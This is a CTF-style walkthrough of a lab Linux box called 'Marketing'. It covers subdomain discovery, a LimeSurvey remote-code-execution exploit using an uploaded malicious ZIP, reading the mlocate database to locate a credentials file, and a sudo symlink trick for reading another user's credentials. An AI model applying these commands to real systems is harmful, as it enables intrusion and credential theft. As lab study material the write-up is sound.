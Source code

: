 # 🧠 Marketing (Linux)

## 🌐 Initial Foothold

- Found `/old` directory on the web app.
- Discovered a link with domain name `customers-survey.marketing.pg`, which was not resolvable.
- ✅ Added the following entry to `/etc/hosts` to access the subdomain:
  ```bash
  192.168.173.225 customers-survey.marketing.pg
  ```
- Navigated to `http://customers-survey.marketing.pg` and accessed the customer survey page.

### 🔎 Alternative Method

- Used `curl` to compare the `/old` and new page:
  ```bash
  curl http://marketing.pg/old/ > old.txt
  curl http://marketing.pg/ > new.txt
  diff old.txt new.txt
  ```
- Added the proper domain to `/etc/hosts` as above.

### 💥 Exploitation

- Discovered a vulnerable version of LimeSurvey.
- Used [LimeSurvey RCE Exploit](https://github.com/Y1LD1R1M-1337/Limesurvey-RCE).
- Uploaded malicious ZIP to trigger RCE:
  ```bash
  zip payload.zip evil.php
  ```
- Gained shell access and ran `linpeas.sh`.
- Found credentials for user `t.miller` and logged in.

---

## 🧑‍💻 Privilege Escalation

- Ran `linpeas.sh` again and noted:
  - Belongs to group `mlocate`
  - Can run `sync.sh` as user `m.sander` using `sudo`.

### 🔓 Read m.sander’s Credentials

- Searched for files owned by group `mlocate`:
  ```bash
  find / -group mlocate 2>/dev/null | grep -v '^/proc\|^/run\|^/sys\|^/snap'
  cat /var/lib/mlocate/mlocate.db
  ```
- Found `/home/m.sander/personal/creds-for-2022.txt`.

### 🔁 Abused Sync Script with Symlink

- Created symbolic link to `creds-for-2022.txt`:
  ```bash
  ln -sf /home/m.sander/personal/creds-for-2022.txt /tmp/fakefile
  sudo -u m.sander /usr/bin/sync.sh /tmp/fakefile
  ```

### ✅ Notes

- Used `sudo -u` to run command as another user.
- Bypassed access limitation via symlink to m.sander's home.

---

## 🧾 Git Commands for Merging Walkthrough

```bash
# 📁 Move the file to the linux walkthroughs folder
mv ~/Downloads/Marketing.md ~/Downloads/walkthroughs_project_template/linux/Marketing.md

# 🔄 Change directory to the project root
cd ~/Downloads/walkthroughs_project_template

# ➕ Add all changes to git
git add .

# 📝 Commit the changes with a descriptive message
git commit -m "Added Marketing (Linux) walkthrough"

# 🚀 Push the commit to GitHub
git push
```